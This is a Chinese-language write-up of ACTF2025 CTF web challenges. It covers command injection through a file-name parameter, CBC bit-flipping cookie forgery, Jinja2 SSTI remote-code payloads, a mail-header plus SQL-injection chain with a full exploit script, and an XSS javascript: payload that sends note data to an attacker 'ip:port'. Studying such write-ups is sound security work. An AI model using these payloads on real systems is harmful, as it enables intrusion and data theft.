




# ACTF2025 Web Writeup-先知社区

> **来源**: https://xz.aliyun.com/news/17907  
> **文章ID**: 17907

---

# ACTF upload

随便登录就是普通用户，进去可以上传文件，然后有任意文件读取，先读/app/app.py得到源码

```
import uuid
import os
import hashlib
import base64
from flask import Flask, request, redirect, url_for, flash, session

app = Flask(__name__)
app.secret_key = os.getenv('SECRET_KEY')

@app.route('/')
def index():
    if session.get('username'):
        return redirect(url_for('upload'))
    else:
        return redirect(url_for('login'))

@app.route('/login', methods=['POST', 'GET'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username == 'admin':
            if hashlib.sha256(password.encode()).hexdigest() == '32783cef30bc23d9549623aa48aa8556346d78bd3ca604f277d63d6e573e8ce0':
                session['username'] = username
                return redirect(url_for('index'))
            else:
                flash('Invalid password')
        else:
            session['username'] = username
            return redirect(url_for('index'))
    else:
        return '''
        <h1>Login</h1>
        <h2>No need to register.</h2>
        <form action="/login" method="post">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <input type="submit" value="Login">
        </form>
        '''

@app.route('/upload', methods=['POST', 'GET'])
def upload():
    if not session.get('username'):
        return redirect(url_for('login'))
    
    if request.method == 'POST':
        f = request.files['file']
        file_path = str(uuid.uuid4()) + '_' + f.filename
        f.save('./uploads/' + file_path)
        return redirect(f'/upload?file_path={file_path}')
    
    else:
        if not request.args.get('file_path'):
            return '''
            <h1>Upload Image</h1>
            
            <form action="/upload" method="post" enctype="multipart/form-data">
                <input type="file" name="file">
                <input type="submit" value="Upload">
            </form>
            '''
            
        else:
            file_path = './uploads/' + request.args.get('file_path')
            if session.get('username') != 'admin':
                with open(file_path, 'rb') as f:
                    content = f.read()
                    b64 = base64.b64encode(content)
                    return f''
            else:
                os.system(f'base64 {file_path} > /tmp/{file_path}.b64')
                # with open(f'/tmp/{file_path}.b64', 'r') as f:
                #     return f''
                return 'Sorry, but you are not allowed to view this image.'
                
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

可以看到`upload`路由这里如果是admin的话会执行`os.system(f'base64 {file_path} > /tmp/{file_path}.b64')`，存在命令注入,admin的密码解出是backdoor



那么就可以通过命令注入获取flag名称/Fl4g\_is\_H3r3，再通过任意文件读取去读flag

```
file_path=; ls / > /tmp/aaa #
file_path=../../../../Fl4g_is_H3r3
```

# not so web 1

```
import base64, json, time
import os, sys, binascii
from dataclasses import dataclass, asdict
from typing import Dict, Tuple
from secret import KEY, ADMIN_PASSWORD
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from flask import (
    Flask,
    render_template,
    render_template_string,
    request,
    redirect,
    url_for,
    flash,
    session,
)

app = Flask(__name__)
app.secret_key = KEY


@dataclass(kw_only=True)
class APPUser:
    name: str
    password_raw: str
    register_time: int


#  In-memory store for user registration
users: Dict[str, APPUser] = {
    "admin": APPUser(name="admin", password_raw=ADMIN_PASSWORD, register_time=-1)
}


def validate_cookie(cookie: str) -> bool:
    if not cookie:
        return False

    try:
        cookie_encrypted = base64.b64decode(cookie, validate=True)
    except binascii.Error:
        return False

    if len(cookie_encrypted) < 32:
        return False

    try:
        iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
        cipher = AES.new(KEY, AES.MODE_CBC, iv)
        cookie_json = cipher.decrypt(padded)
    except ValueError:
        return False

    try:
        _ = json.loads(cookie_json)
    except Exception:
        return False

    return True


def parse_cookie(cookie: str) -> Tuple[bool, str]:
    if not cookie:
        return False, ""

    try:
        cookie_encrypted = base64.b64decode(cookie, validate=True)
    except binascii.Error:
        return False, ""

    if len(cookie_encrypted) < 32:
        return False, ""

    try:
        iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
        cipher = AES.new(KEY, AES.MODE_CBC, iv)
        decrypted = cipher.decrypt(padded)
        cookie_json_bytes = unpad(decrypted, 16)
        cookie_json = cookie_json_bytes.decode()
    except ValueError:
        return False, ""

    try:
        cookie_dict = json.loads(cookie_json)
    except Exception:
        return False, ""

    return True, cookie_dict.get("name")


def generate_cookie(user: APPUser) -> str:
    cookie_dict = asdict(user)
    cookie_json = json.dumps(cookie_dict)
    cookie_json_bytes = cookie_json.encode()
    iv = os.urandom(16)
    padded = pad(cookie_json_bytes, 16)
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    encrypted = cipher.encrypt(padded)
    return base64.b64encode(iv + encrypted).decode()


@app.route("/")
def index():
    if validate_cookie(request.cookies.get("jwbcookie")):
        return redirect(url_for("home"))
    return redirect(url_for("login"))


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        user_name = request.form["username"]
        password = request.form["password"]
        if user_name in users:
            flash("Username already exists!", "danger")
        else:
            users[user_name] = APPUser(
                name=user_name, password_raw=password, register_time=int(time.time())
            )
            flash("Registration successful! Please login.", "success")
            return redirect(url_for("login"))
    return render_template("register.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        if username in users and users[username].password_raw == password:
            resp = redirect(url_for("home"))
            resp.set_cookie("jwbcookie", generate_cookie(users[username]))
            return resp
        else:
            flash("Invalid credentials. Please try again.", "danger")
    return render_template("login.html")


@app.route("/home")
def home():
    valid, current_username = parse_cookie(request.cookies.get("jwbcookie"))
    if not valid or not current_username:
        return redirect(url_for("logout"))

    user_profile = users.get(current_username)
    if not user_profile:
        return redirect(url_for("logout"))

    if current_username == "admin":
        payload = request.args.get("payload")
        html_template = """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">Welcome, %s !</h2>
        <div class="text-center">
            Your payload: %s
        </div>
        
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
""" % (
            current_username,
            payload,
        )
    else:
        html_template = (
            """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">server code (encoded)</h2>
        <div class="text-center" style="word-break:break-all;">
        {%% raw %%}
            %s
        {%% endraw %%}
        </div>
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
"""
            % base64.b64encode(open(__file__, "rb").read()).decode()
        )
    return render_template_string(html_template)


@app.route("/logout")
def logout():
    resp = redirect(url_for("login"))
    resp.delete_cookie("jwbcookie")
    return resp


if __name__ == "__main__":
    app.run()
```

CBC字节翻转攻击伪造admin打SSTI就行

首先我们注册的用户对象json格式为

```
{"name": "admix", "password_raw": "password123", "register_time": 1714100000}
```

返回给我们的cookie格式为base64(IV + AES(User)) ，可知道我们需要反转的m在User Json格式的第一个AES分组的第15位，根据CBC的特性可知，第一组明文在加密前需要与IV进行异或，那么我们直接翻转IV即可，同时不用考虑翻转后的扩散影响

```
import base64

ciphertext = 'pcs0XLPoE/wf64KE3YYV6lqC8s7SM/sFaFTE+Ap373D2nEWbaLEYgGGzhFKfXeeuxO/uZKY5cRm75DWqY3O7bFysO8ke5XZtzt7J1l0BlDwCJvxzh+TP3s7rx9jVYmqw'

cipher = base64.b64decode(ciphertext)
iv = bytearray(cipher[:16])
cipher = cipher[16:]
iv[14] = iv[14] ^ ord('x') ^ ord('n')
new_cookie = base64.b64encode(bytes(iv) + cipher).decode()
print('Cipher:', new_cookie)

# pcs0XLPoE/wf64KE3YYD6lqC8s7SM/sFaFTE+Ap373D2nEWbaLEYgGGzhFKfXeeuxO/uZKY5cRm75DWqY3O7bFysO8ke5XZtzt7J1l0BlDwCJvxzh+TP3s7rx9jVYmqw
```

```
{{g.pop.__globals__.__builtins__['__import__']('os').popen('cat flag.txt').read()}}
```



# not so web 2

```
import base64, json, time
import os, sys, binascii
from dataclasses import dataclass, asdict
from typing import Dict, Tuple
from secret import KEY, ADMIN_PASSWORD
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
from Crypto.Hash import SHA256
from flask import (
    Flask,
    render_template,
    render_template_string,
    request,
    redirect,
    url_for,
    flash,
    session,
    abort,
)

app = Flask(__name__)
app.secret_key = KEY

if os.path.exists("/etc/ssl/nginx/local.key"):
    private_key = RSA.importKey(open("/etc/ssl/nginx/local.key", "r").read())
else:
    private_key = RSA.generate(2048)

public_key = private_key.publickey()


@dataclass
class APPUser:
    name: str
    password_raw: str
    register_time: int


#  In-memory store for user registration
users: Dict[str, APPUser] = {
    "admin": APPUser(name="admin", password_raw=ADMIN_PASSWORD, register_time=-1)
}


def validate_cookie(cookie_b64: str) -> bool:
    valid, _ = parse_cookie(cookie_b64)
    return valid


def parse_cookie(cookie_b64: str) -> Tuple[bool, str]:
    if not cookie_b64:
        return False, ""

    try:
        cookie = base64.b64decode(cookie_b64, validate=True).decode()
    except binascii.Error:
        return False, ""

    try:
        msg_str, sig_hex = cookie.split("&")
    except Exception:
        return False, ""

    msg_dict = json.loads(msg_str)
    msg_str_bytes = msg_str.encode()
    msg_hash = SHA256.new(msg_str_bytes)
    sig = bytes.fromhex(sig_hex)
    try:
        PKCS1_v1_5.new(public_key).verify(msg_hash, sig)
        valid = True
    except (ValueError, TypeError):
        valid = False
    return valid, msg_dict.get("user_name")


def generate_cookie(user: APPUser) -> str:
    msg_dict = {"user_name": user.name, "login_time": int(time.time())}
    msg_str = json.dumps(msg_dict)
    msg_str_bytes = msg_str.encode()
    msg_hash = SHA256.new(msg_str_bytes)
    sig = PKCS1_v1_5.new(private_key).sign(msg_hash)
    sig_hex = sig.hex()
    packed = msg_str + "&" + sig_hex
    return base64.b64encode(packed.encode()).decode()


@app.route("/")
def index():
    if validate_cookie(request.cookies.get("jwbcookie")):
        return redirect(url_for("home"))
    return redirect(url_for("login"))


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        user_name = request.form["username"]
        password = request.form["password"]
        if user_name in users:
            flash("Username already exists!", "danger")
        else:
            users[user_name] = APPUser(
                name=user_name, password_raw=password, register_time=int(time.time())
            )
            flash("Registration successful! Please login.", "success")
            return redirect(url_for("login"))
    return render_template("register.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        if username in users and users[username].password_raw == password:
            resp = redirect(url_for("home"))
            resp.set_cookie("jwbcookie", generate_cookie(users[username]))
            return resp
        else:
            flash("Invalid credentials. Please try again.", "danger")
    return render_template("login.html")


@app.route("/home")
def home():
    valid, current_username = parse_cookie(request.cookies.get("jwbcookie"))
    if not valid or not current_username:
        return redirect(url_for("logout"))

    user_profile = users.get(current_username)
    if not user_profile:
        return redirect(url_for("logout"))

    if current_username == "admin":
        payload = request.args.get("payload")
        if payload:
            for char in payload:
                if char in "'_#&;":
                    abort(403)
                    return

        html_template = """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">Welcome, %s !</h2>
        <div class="text-center">
            Your payload: %s
        </div>
        
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
""" % (
            current_username,
            payload,
        )
    else:
        html_template = (
            """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">server code (encoded)</h2>
        <div class="text-center" style="word-break:break-all;">
        {%% raw %%}
            %s
        {%% endraw %%}
        </div>
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
"""
            % base64.b64encode(open(__file__, "rb").read()).decode()
        )
    return render_template_string(html_template)


@app.route("/logout")
def logout():
    resp = redirect(url_for("login"))
    resp.delete_cookie("jwbcookie")
    return resp


if __name__ == "__main__":
    app.run()

```

鉴权存在问题

```
if current_username == "admin":
        payload = request.args.get("payload")
```

base64解码后的username是admin就行

```
base_str = "eyJ1c2VyX25hbWUiOiAiYWRtaXgiLCAibG9naW5fdGltZSI6IDE3NDU2NTYxMjF9JjRlOGViNjZjNTNlN2E2YzQzYTY4MjNhZGQ0MjQwMzA0YjBlZjVhM2VmZTk5MzRjNWQ1ZTg1MGQ5NWRkN2M1M2Y4NTRmOGU0NjljYTQzYTM1Y2M3YTRhZGNhYWQwNDI0Nzc0NGY3Mjk3YjdjNjY3MjJhYTg2ODQ1YjQxYzUxYzliMjMzNjllNjFmYjE0ZWRhNjE4ODIxZDM3NzAyODA0ZmY2ZWI0M2U5ZjQzZmMwNTE0NzBjYWJkMTU4MTM0MmRmNzc1NGZjNDUzMDMyZWU2ZDgxOTRiNmM1NjNmNmRhNjBiN2RlMDExODc2ZTcxZWEyMGIyNjhkZDBlMWVlYTg0Yjk3MTcyNjI4NzA1ODk3NDYyNTI2Njk1NGQxZmY1OTc3MWM2Y2MwZjY5NzIzNDY2OWVkZWJlNDk2NmQ0OWVjN2E0NjgyZGE5NDI2MWI2ODYyZWU1ZDlmNjU4NDQ3NWMzY2U2YzdiMmZiNmE0YjM5Mzg4NzIyMDc1YjFlMmQ1MjA4MWFjYjBlY2JjYjk1YzlmOWI1MGU4ZmI0Zjk2NDA3MmIyM2E4NjBlMTRkNTE5OGYyNjJmYjVjOWZkZDZhNzYxYTQ2YWVlNTJlMDkzYTM0MGFiOTgzZGQ3MjU1N2I2YWEyYmYxMTM0N2NhN2Y3ZWQ0ZDQ3YTJiYjg1NDAzMmIzNzZi"
origin = base64.b64decode(base_str)
print(origin)

# b'{"user_name": "admix", "login_time": 1745656121}&4e8eb66c53e7a6c43a6823add4240304b0ef5a3efe9934c5d5e850d95dd7c53f854f8e469ca43a35cc7a4adcaad04247744f7297b7c66722aa86845b41c51c9b23369e61fb14eda618821d37702804ff6eb43e9f43fc051470cabd1581342df7754fc453032ee6d8194b6c563f6da60b7de011876e71ea20b268dd0e1eea84b971726287058974625266954d1ff59771c6cc0f697234669edebe4966d49ec7a4682da94261b6862ee5d9f6584475c3ce6c7b2fb6a4b39388722075b1e2d52081acb0ecbcb95c9f9b50e8fb4f964072b23a860e14d5198f262fb5c9fdd6a761a46aee52e093a340ab983dd72557b6aa2bf11347ca7f7ed4d47a2bb854032b376b'
signature = '{"user_name": "admin", "login_time": 1745656121}&4e8eb66c53e7a6c43a6823add4240304b0ef5a3efe9934c5d5e850d95dd7c53f854f8e469ca43a35cc7a4adcaad04247744f7297b7c66722aa86845b41c51c9b23369e61fb14eda618821d37702804ff6eb43e9f43fc051470cabd1581342df7754fc453032ee6d8194b6c563f6da60b7de011876e71ea20b268dd0e1eea84b971726287058974625266954d1ff59771c6cc0f697234669edebe4966d49ec7a4682da94261b6862ee5d9f6584475c3ce6c7b2fb6a4b39388722075b1e2d52081acb0ecbcb95c9f9b50e8fb4f964072b23a860e14d5198f262fb5c9fdd6a761a46aee52e093a340ab983dd72557b6aa2bf11347ca7f7ed4d47a2bb854032b376b'
print(base64.b64encode(signature.encode()))
```

然后还是打SSTI

```
{{g.pop[gl][bu][im]("os").popen("cat f*").read()}}
```

# Excellent-Site

```
import smtplib 
import imaplib
import email
import sqlite3
from urllib.parse import urlparse
import requests
from email.header import decode_header
from flask import *

app = Flask(__name__)

def get_subjects(username, password):
    imap_server = "ezmail.org"
    imap_port = 143
    try:
        mail = imaplib.IMAP4(imap_server, imap_port)
        mail.login(username, password)
        mail.select("inbox")
        status, messages = mail.search(None, 'FROM "admin@ezmail.org"')
        if status != "OK":
            return ""
        subject = ""
        latest_email = messages[0].split()[-1]
        status, msg_data = mail.fetch(latest_email, "(RFC822)")
        for response_part in msg_data:
            if isinstance(response_part, tuple):
                msg = email.message_from_bytes(response_part  [1])
                subject, encoding = decode_header(msg["Subject"])  [0]
                if isinstance(subject, bytes):
                    subject = subject.decode(encoding if encoding else 'utf-8')
        mail.logout()
        return subject
    except:
        return "ERROR"

def fetch_page_content(url):
    try:
        parsed_url = urlparse(url)
        if parsed_url.scheme != 'http' or parsed_url.hostname != 'ezmail.org':
            return "SSRF Attack!"
        response = requests.get(url)
        if response.status_code == 200:
            return response.text
        else:
            return "ERROR"
    except:
        return "ERROR"

@app.route("/report", methods=["GET", "POST"])
def report():
    message = ""
    if request.method == "POST":
        url = request.form["url"]
        content = request.form["content"]
        smtplib._quote_periods = lambda x: x
        mail_content = """From: ignored@ezmail.org\r
To: admin@ezmail.org\r
Subject: {url}\r
\r
{content}\r
.\r
"""
        try:
            server = smtplib.SMTP("ezmail.org")
            mail_content = smtplib._fix_eols(mail_content)
            mail_content = mail_content.format(url=url, content=content)
            server.sendmail("ignored@ezmail.org", "admin@ezmail.org", mail_content)
            message = "Submitted! Now wait till the end of the world."
        except:
            message = "Send FAILED"
    return render_template("report.html", message=message)

@app.route("/bot", methods=["GET"])
def bot():
    requests.get("http://ezmail.org:3000/admin")
    return "The admin is checking your advice(maybe)"

@app.route("/admin", methods=["GET"])
def admin():
    ip = request.remote_addr
    if ip != "127.0.0.1":
        return "Forbidden IP"
    subject = get_subjects("admin", "p@ssword")
    if subject.startswith("http://ezmail.org"):
        page_content = fetch_page_content(subject)
        return render_template_string(f"""
                <h2>Newest Advice(from myself)</h2>
                <div>{page_content}</div>
        """)
    return ""

@app.route("/news", methods=["GET"])
def news():
    news_id = request.args.get("id")

    if not news_id:
        news_id = 1

    conn = sqlite3.connect("news.db")
    cursor = conn.cursor()

    cursor.execute(f"SELECT title FROM news WHERE id = {news_id}")
    result = cursor.fetchone()
    conn.close()

    if not result:
        return "Page not found.", 404
    return result[0]

@app.route("/")
def index():
    return render_template("index.html")

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=3000)
```

mail注入+sql注入，首先通过`/report`提交的邮件发送方必须是admin，并且ur必须是`http://ezmail.org`开头，这样我们通过`/bot`来请求`/admin`时会获取指定url的内容，然后通过`/news`的sql注入我们可以控制页面的回显，最后构造回显为SSTI Payload来使`/admin`触发

```
import requests
import time

target = "http://61.147.171.106:55019"

payload = (
    "http://ezmail.org:3000/news?id=-1 "
    "union select '{{ self.__init__.__globals__.__builtins__.__import__("os").popen("mkdir static;cat /f*>>static/1;sleep 10").read() }}'\r
"
    "From: admin@ezmail.org\r
"
)

data = {
    "url": payload,
    "content": "sleep_test"
}

print("[+] Sending payload to /report...")
requests.post(f"{target}/report", data=data)

print("[+] Triggering bot...")
start = time.time()
requests.get(f"{target}/bot")
end = time.time()

print(f"[+] Time elapsed: {end - start:.2f} seconds")
print("[*] If delay >= 5s, RCE likely succeeded!")
```



# eznote

```
app.post('/report', async (req, res) => {
    let { url } = req.body
    try {
        await visit(url)
        res.send('success')
    } catch (err) {
        console.log(err)
        res.send('error')
    }
})
```

`/report`路由这里未对url进行处理，url会直接传入bot.js的visit

```
async function visit(url) {
    let browser = await puppeteer.launch({
        headless: HEADLESS,
        executablePath: '/usr/bin/chromium',
        args: ['--no-sandbox'],
    })
    let page = await browser.newPage()

    await page.goto('http://localhost:3000/')

    await page.waitForSelector('#title')
    await page.type('#title', 'flag', {delay: 100})
    await page.type('#content', FLAG, {delay: 100})
    await page.click('#submit', {delay: 100})

    await sleep(3)
    console.log('visiting %s', url)

    await page.goto(url)
    await sleep(30)
    await browser.close()
}
```

通过js伪协议打XSS将nots外带，然后获取note/:noteId中的flag

```
javascript:fetch('/notes').then(r=>r.text()).then(d=>navigator.sendBeacon('http://ip:port/',d))
```



属于非预期
